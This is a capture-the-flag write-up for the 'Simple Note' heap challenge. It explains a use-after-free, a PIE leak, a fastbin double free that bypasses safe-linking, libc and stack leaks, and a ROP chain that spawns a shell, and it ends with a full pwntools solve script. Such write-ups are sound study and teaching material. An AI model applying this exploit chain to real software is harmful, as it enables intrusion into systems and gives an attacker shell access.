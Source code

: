 # Simple Note

author: kuvee
points: 491

the checksec output:
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

On inspecting the decompilation, we notice:
- We have Use after Free (UAF)
- The pointers are being stored in global array, and we can only have 6 allocations
- allocation is done using calloc() instead of main(), why does this matter? calloc zeroes out space on allocation and the algorithm slightly differs from malloc, so it will be more oriented toward fast-bin attack
- There's a peculiar function on input 9999, which gives a very nice leak
```
Note: something very interesting to see is, if your allocation bin's size has `IS_MMAPED` flag set, then calloc wont zero out its region because it assumes it's already zero-ed out because of mmap
```
```c
unsigned __int64 sub_193C()
{
  void *v1; // [rsp+8h] [rbp-68h] BYREF
  char s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = &unk_4060;
  puts("enter your name: ");
  fgets(s, 80, stdin);
  puts("enter your age: ");
  __isoc99_scanf("%ld", &v1);
  getchar();
  printf("your age: %ld and name: %s\n", v1, s);
  puts("but ... why you here???");
  return v3 - __readfsqword(0x28u);
}
```

When we are doing scanf on `v1` there's no check if it's being taken properly, so if you just give any nonsensical input, it will print the address of `v1` in the printf line which just happens to be pointer in bss area, awesome.

The main idea behind the exploitation is to first get a heap leak to defeat [safe-link](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking) and perform some attack on fastbins to make it return arbitrary pointer,
we want it to be in the BSS area where the array storing the pointers is present, there we can write our own pointers and read/write.

So lets start

- get the pie leak
    ```python
        r.sendlineafter(b'>',b'9999')
        r.sendlineafter(b':',b'a')
        r.sendlineafter(b':',b'aaaaaa')
        r.recvuntil(b'age:')
        exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060
        print(hex(exe.address))
    ```

- get the heap leak
    ```python
        malloc(0x43,b'aaaa')
        free(0)
        heap_leek = unpack(show(0),'all')
    ```
- fill up the tcache without allocating them on pointer array
    ```python
    for i in range(7):
            malloc(0x33,b'')
    ```
    this works because on invalid input, it frees the area and makes the pointer in pointer array NULL


- Now we perform double-free on the fastbin and then change the next pointer to get a controlled pointer in bss area (similar to tcache poinsoning)
    ```python
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')
    ```
    read this for the [fastbin double free](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/fastbin_dup.c)
    
    It's important to note that my first alloc was 0x43, which is the size that gets stored in the array, this will be acting as the fake fastbin available for use, it's `IS_MMAPED` and `PREV_INUSE` flag will be set due 0x3 (0x2|0x1)
    the allocations after that are 0x33, because allocation algorithm will perform a check on the fastbin size to detect for corruption, 0x33 allocation would go to a bin with 0x40 as size.

- Now we have control over the pointer array with our latest allocation! i'll be leaking the libc and stack address now, by making use of stdout/stdin/stderror file struct pointer in BSS area
    ```python
    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    ```
    the `environ` symbol in libc contains stack addresses, and `exe.address+0x4020` had one of the file struct pointers in libc

- Now i just do rop
    ```python
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    ```

and finally get the shell


The solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.terminal =['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",4566)
        context.noptrace=True

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendlineafter(b'>',b'9999')
    r.sendlineafter(b':',b'a')
    r.sendlineafter(b':',b'aaaaaa')
    r.recvuntil(b'age:')
    exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060

    print(hex(exe.address))
    def malloc(sz,pl):
        r.sendlineafter(b'>',b'1')
        r.sendlineafter(b':',str(sz).encode())
        r.sendlineafter(b':',pl)

    def edit(idx,pl):
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.sendlineafter(b':',pl)

    def show(idx):
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.recvuntil(b': "')
        return r.recvline().strip()[:-1]

    def free(idx):
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())

    malloc(0x43,b'aaaa')
    free(0)
    heap_leek = unpack(show(0),'all')
    for i in range(7):
        malloc(0x33,b'')
    print(hex(heap_leek<<12))
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')

    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    r.interactive()


if __name__ == "__main__":
    main()
```

